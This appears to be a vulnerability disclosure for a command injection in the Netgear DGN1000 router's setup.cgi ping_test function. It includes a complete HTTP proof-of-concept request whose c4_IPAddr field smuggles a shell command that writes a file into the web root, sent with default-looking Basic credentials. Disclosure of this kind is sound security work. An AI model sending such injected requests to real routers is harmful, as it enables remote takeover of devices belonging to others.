 ### Overview

- Vendor : Netgear
- Product : DGN1000
- Version : DGN1000WW_V1.1.00.45.img
- Firmware download address : https://www.downloads.netgear.com/files/GDC/DGN1000/DGN1000WW_V1.1.00.45.zip

### Vulnerability details

A vulnerability was determined in Netgear DGN1000WW_V1.1.00.45.img. This impacts the function ping_test of the file setup.cgi. This manipulation of the argument c4_IPAddr causes command injection. The attack is possible to be carried out remotely. The exploit has been publicly disclosed and may be utilized.

![1756293462445](image/ping_test/1756293462445.png)
![1756293485571](image/ping_test/1756293485571.png)

### PoC

```
POST /setup.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 152
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/diag.htm&todo=cfg_init
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

IPAddr1=192&IPAddr2=168&IPAddr3=1&IPAddr4=1&ping=Ping&todo=ping_test&this_file=diag.htm&next_file=diagping.htm&c4_IPAddr=1||/usr/sbin/echo 0 >/www/1.txt
```


